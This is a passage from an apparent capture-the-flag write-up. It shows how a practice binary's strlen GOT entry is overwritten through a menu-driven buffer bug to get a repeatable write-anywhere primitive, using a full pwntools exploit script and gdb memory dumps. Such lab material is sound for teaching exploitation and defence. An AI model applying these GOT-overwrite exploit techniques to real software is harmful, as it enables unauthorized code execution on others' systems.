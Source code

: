 EAX is a temporary register and will hold the number of bytes to read and ECX just always seem to be 0x11 when this call is made. Furthermore, playing around with the value of ECX for after the function call resulted in no crashes, so this seemed like a good solution.

To cause the overwrite I had to set the pointer (previously set to 0x41414141 above) to the address of `got.strlen`, change the dankness to 5 to allow 4 bytes of overwrite (`fgets` accounts for the null), and then write the address of the meme content.

I decided to use pwntools for this:
```python
e = ELF('./dat-boinary')
r = process(e.path)

strlen_replace = 0x08048567
gdb.attach(r, "b * 0x0804889d")
sleep(3)

r.sendline(cyclic(9))
log.info("buffer maxed out")

r.sendline("5")
log.info("called secret meme")

r.sendline("1")
r.sendline(cyclic(0xc) + p32(e.sym['got.strlen']) + cyclic(10))
log.info("meme content should be addr of strlen")

r.sendline("2")
r.sendline("5")
log.info("set dankness to 5")

r.sendline("3")
r.sendline(p32(strlen_replace))
log.info("strlen replaced")

r.sendline("1")
r.sendline(cyclic(100))
```

Running this and stepping though each command sent showed that the GOT entry for `strlen` was overwritten with the address of the gadget:
```none
> x/x &'strlen@got.plt'
0x8049120 <strlen@got.plt>:     0x08048567
```

Trying to set the meme id again (with cyclic(100)) caused another overwrite:
```none
> x/8x $esp
0xffb136a0:     0xffb13cc9      0x0000002f      0x61616161      0x00616162
0xffb136b0:     0x61616163      0x61616164      0x61616165      0x00000000
```

So now I was able to write anything anywhere repeatedly.
